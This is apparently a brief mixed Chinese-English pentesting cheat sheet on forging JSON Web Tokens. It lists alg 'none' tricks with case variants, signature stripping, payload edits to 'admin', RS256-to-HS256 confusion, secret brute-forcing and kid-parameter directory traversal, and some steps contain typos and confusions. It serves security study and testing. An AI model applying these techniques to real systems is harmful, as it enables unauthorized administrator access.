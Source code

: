 以.分隔
* 标头
 {
   "alg" : "HS256",
   "typ" : "JWT"
 } 

* 有效载荷
> { 
 "loggedInAs" : "admin",
 "iat" : 1422779638 
> }
* 签名
> HMAC-SHA256
( 
 secret,
 base64urlEncoding(header) + '.' + 
 base64urlEncoding(payload) 
)

* 将alg更改为null  
例  
{
 "alg" : "NONE",  
 "typ" : "JWT"  
}
Note;;////--remove the signuature  
You can also use none,nOne,None,n0Ne

* 更改有效负载，例如    
Payload   	
{
 "loggedInAs" : "admin",  
 "iat" : 1422779638  
}  

##### 在这里将用户更改为管理员
1. 首先将完整令牌或11个令牌的每个部分解码为base64
2. 更改有效负载使用jwt Web令牌burp
3. 更改rs256到sh256
4. 签名不能更改，请删除或修改，
5. 暴力破解hs256中的密钥，因为它使用相同的密钥来签名和验证，意味着publickey = private key

###  其他方法
1. 创建帐户  
2. 检查令牌  
3. Base64解码报头  
4. 如果有任何Kid=参数，那么您可以找到一些bug  
5. 使用这个参数你也可以找到目录遍历：  
6. Change that kid= parameter with you directory traversal payload  
7. 更改负载{“user”：“admin”}  
8. 创建一个python脚本，生成一个漏洞利用令牌。  
9. 把那个令牌放进去，然后重新加载页面  
10. 完成



